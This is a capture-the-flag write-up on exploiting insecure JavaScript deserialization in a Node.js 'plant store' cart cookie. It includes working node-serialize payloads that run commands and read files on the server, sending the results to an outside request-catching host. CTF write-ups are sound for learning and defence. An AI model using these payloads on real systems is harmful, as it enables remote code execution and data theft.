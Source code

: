 # NahamCon CTF - Seriously

So we have five "plant stores" and we need to hack it to get the flag.
At first I thought the challenge was somehow related to escalate privileges among them.

There are two hints here:
* The message on the checkout option, saying it was prohibited due to security issues.
* The name of the game itself ("seriously"), as I found later.

I tried all the stores to see if the checkout was open on any of them, but they were not (and stores 3 and 4 were down).

The **/cart** URL used a cookie called also **cart**, to store the items, encoded in base64:

**Base64:**

```
eyJpdGVtcyI6eyIwIjp7Im5hbWUiOiJIYXdvcnRoaW9wc2lzIGF0dGVudWF0YSIsInByaWNlIjoxOS45OSwiY291bnQiOjF9LCIyIjp7Im5hbWUiOiJEcmFjYWVuYSB0cmlmYXNjaWF0YSIsInByaWNlIjoxNC45OSwiY291bnQiOjF9fX0K`
```

**Decoded:** 

```
{"items":{"0":{"name":"Haworthiopsis attenuata","price":19.99,"count":1},"2":{"name":"Dracaena trifasciata","price":14.99,"count":1}}}
````
OK, using a 404 error, we see it's a node application, so I found a Javascript deserialization vulnerability.

### First Try: Shell

Using a sample payload online, I tried to call OS commands.
The snippet bellow is the same structure of the cart, but I changed the name to an evil function.

```
evil = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){
            require('child_process').exec('ls / >> nep10.txt', function(error, stdout, stderr) { return 'Neptunian'; });
        }, 
        price: 14.99, count: 1,  },
  }
}**()**
```

And the plan is to serialize the evil object to send to the server.

Something about the **()** above: if you put the parentheses in this constructor, it will run the function, and the serialized version will get only the result.
I had to put the **()** it after serializing for it to run only after deserialization.
Automated the replace to test faster.

And testing:
```
let buff = new Buffer.from(serialize.serialize(evil));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```

Now I had a payload.
It worked locally, but I couldnt make the exec command work (tried with curl instead of **ls**).

### The Real Deal: Owning with Javascript

I dont really need a shell when I can run Javascript code on the server.
So lets change the Evil object.

The plan is to send result of the commands to **requestcatcher**.
The error hints that the application is in the **/home/user**, so the plan is to list the files and see if the flag is there.

```
// Kept the basic structure of the cart
// First: listed files on /home/user dir
// After: get flag in base64 format to send (owned!)
evil2 = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){

            mysite = 'https://neptunian147.requestcatcher.com';

            require('request')(mysite - '/working', function (error, response, body) { console.log(body); });

            var fs = require('fs');
            const path = require('path');
            //joining path of directory 
            // require('path').dirname(require.main.filename)''; //__dirname
            const directoryPath =  '/home/user';
            //passsing directoryPath and callback function
            fs.readdir(directoryPath, function (err, files) {
                //handling error
                if (err) {
                    return console.log('Unable to scan directory: ' + err);
                    require('request')(mysite + '/shitt-happens', function (error, response, body) { console.log(body); });
                } 

                //listing all files using forEach
                files.forEach(function (file) {
                    // Do whatever you want to do with the file
                    console.log(file); 

                    require('request')(mysite + '/store2?file=' + file, function (error, response, body) { console.log(body); });
                });
            });},price: 14.99, count: 1,  },
  }
};
```

And after that:

![Request Catcher - Round 1](https://github.com/Neptunians/nahamcon-ctf/blob/master/seriously/request_catcher_screenshot_1.png)

So, let's include a block to get the flag content and send it, using base64 to avoid any problems:

```
var fs = require('fs');
fs.readFile('/home/user/flag.txt', function(err, data) {
    let base64flag = Buffer.from(data).toString('base64');

    require('request')(mysite + '/working?flag=' + base64flag, function (error, response, body) { console.log(body); });
});
```

And then:

![Request Catcher - Round 1](https://github.com/Neptunians/nahamcon-ctf/blob/master/seriously/request_catcher_screenshot_2.png)

Decodes to:

```
$ echo "ZmxhZ3tzZXJpb3VzbHlfZGVzZXJpYWxpemF0aW9uX3dpdGhfcGxhbnRzfQo=" | base64 -d
flag{seriously_deserialization_with_plants}
```

Owned!

```
### Final Payload

evil2 = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){

            mysite = 'https://neptunian147.requestcatcher.com';

            require('request')(mysite - '/working', function (error, response, body) { console.log(body); });

            var fs = require('fs');
            fs.readFile('/home/user/flag.txt', function(err, data) {
                let base64flag = Buffer.from(data).toString('base64');

                require('request')(mysite + '/working?flag=' + base64flag, function (error, response, body) { console.log(body); });
              });

            const path = require('path');
            //joining path of directory 
            // require('path').dirname(require.main.filename)''; //__dirname
            const directoryPath =  '/home/user';
            //passsing directoryPath and callback function
            fs.readdir(directoryPath, function (err, files) {
                //handling error
                if (err) {
                    return console.log('Unable to scan directory: ' + err);
                    require('request')(mysite + '/shitt-happens', function (error, response, body) { console.log(body); });
                } 

                //listing all files using forEach
                files.forEach(function (file) {
                    // Do whatever you want to do with the file
                    console.log(file); 

                    require('request')(mysite + '/store2?file=' + file, function (error, response, body) { console.log(body); });
                });
            });},price: 14.99, count: 1,  },
  }
};

// Lets serialize the payload
let buff = new Buffer.from(serialize.serialize(evil2));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```